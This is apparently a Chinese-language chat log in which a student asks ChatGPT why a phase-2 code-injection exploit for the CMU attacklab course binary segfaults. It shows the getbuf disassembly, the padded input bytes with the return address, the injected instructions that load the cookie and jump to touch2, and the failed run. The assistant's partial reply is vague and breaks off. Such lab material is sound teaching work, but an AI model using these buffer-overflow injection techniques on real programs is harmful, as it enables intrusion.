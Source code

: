 0000000000401947 &lt;getbuf&gt;:
  401947:	48 83 ec 18          	sub    $0x18,%rsp
  40194b:	48 89 e7             	mov    %rsp,%rdi
  40194e:	e8 7e 02 00 00       	callq  401bd1 &lt;Gets&gt;
  401953:	b8 01 00 00 00       	mov    $0x1,%eax
  401958:	48 83 c4 18          	add    $0x18,%rsp
  40195c:	c3                   	retq   

我的l2a.txt内容:11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 98 43 64 55
找的是  401958:	48 83 c4 18          	add    $0x18,%rsp的%rsp的地址

void touch2(unsigned val){
         vlevel = 2;/* Part of validation protocol */
         if (val == cookie) {printf("Touch2!: You called touch2 (0x%.8x)\n", val);validate(2); }
         else {printf("Misfire: You called touch2(0x%.8x)\n", val);fail(2);}
         exit(0);
}

我感觉我就是rsp寄存器的地址找错了，他应该找的是  40194b:	48 89 e7             	mov    %rsp,%rdi那句？

zxx@ubuntu:~/code/buffer overflow/target32116160247$ objdump -d l2d.o

l2d.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 &lt;.text&gt;:
   0:	48 c7 c7 96 58 80 16 	mov    $0x16805896,%rdi
   7:	68 89 19 40 00       	pushq  $0x401989
   c:	c3                   	retq   
zxx@ubuntu:~/code/buffer overflow/target32116160247$ ./hex2raw &lt;l2a.txt&gt; l2at.txt
zxx@ubuntu:~/code/buffer overflow/target32116160247$ ./ctarget -i l2at.txt -q
Cookie: 0x16805896
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	2051389175:FAIL:0xffffffff:ctarget:0:11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 98 43 64 55 

究竟错在哪了呢？

* * *

**ChatGPT:**

根据您提供的信息，您的输入字符串和汇编代码可能存在一些问题。在这里，我们将重新审视您的输入字符串和代码，以便找出可能出现的问题。

首先，让我们回顾您的输入字符串：

```
11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 98 43 64 55
```

这个字符串包含了28个字节。但是，我们需要确保在触发栈溢出之前，填充足够的字节。在这个例子中，我们需要填充24个字节，然后将`%rsp`的值放在合适的位置。接下来，我们需要将`l2d.o`中的代码注入到栈中，以便在返回地址之后执行。
